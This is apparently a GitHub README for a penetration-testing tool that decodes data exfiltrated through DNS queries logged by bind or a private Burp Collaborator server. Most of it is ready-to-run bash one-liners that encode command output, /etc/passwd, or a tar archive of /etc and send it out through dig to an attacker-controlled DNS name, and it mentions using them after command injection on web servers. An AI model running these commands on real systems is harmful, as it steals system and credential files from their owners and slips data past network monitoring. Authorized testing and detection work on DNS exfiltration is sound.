 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode base32- or hex-encoded exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as hex- or base32-encoded data, see below). You may also prepend multiple names, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`) or lowercase hex (`0-9`, `a-f`), which which is safe for DNS queries (and can typically be sent via `bash` on Linux/Unix systems using `base32` or `xxd`). base32 is twice as efficient as hex. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that if results are unreliable you can specify the name or IP of the DNS server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`. Use a different query ID for each transfer.

For `base32`, the `-w63` flag specifies line wrapping at 63 bytes. For `xxd` (hex): the `-p` flag is 'output  in  postscript  continuous  hexdump style', and `-c31` is count of 31 hex characters (62 bytes sent).

### Send STDOUT from a command

#### base32
```
ifconfig | base32 -w63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### hex
```
ifconfig | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### Decode the output
```
dns-parse.py <DNS Name> (query.log|collaborator.log)
```

### Exfiltrate a file

#### base32
```
base32 -w63 < /etc/passwd | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### hex
```
xxd -p -c31 < /etc/passwd | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### Decode the file
```
dns-parse.py <DNS Name> (query.log|collaborator.log)
```

### Exfiltrate a compressed file:

#### base32
```
gzip - < /etc/passwd | base32 -w63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### hex
```
gzip - < /etc/passwd | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### Decode/unzip the file
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

#### base32
```
tar czf - /etc | base32 -w63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### hex
```
tar czf - /etc | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

#### Decode/save the tar archive
```
dns-parse.py <DNS Name> (query.log|collaborator.log) > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration via base32):
```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration via base32):
```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration via base32):
```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | zcat
```
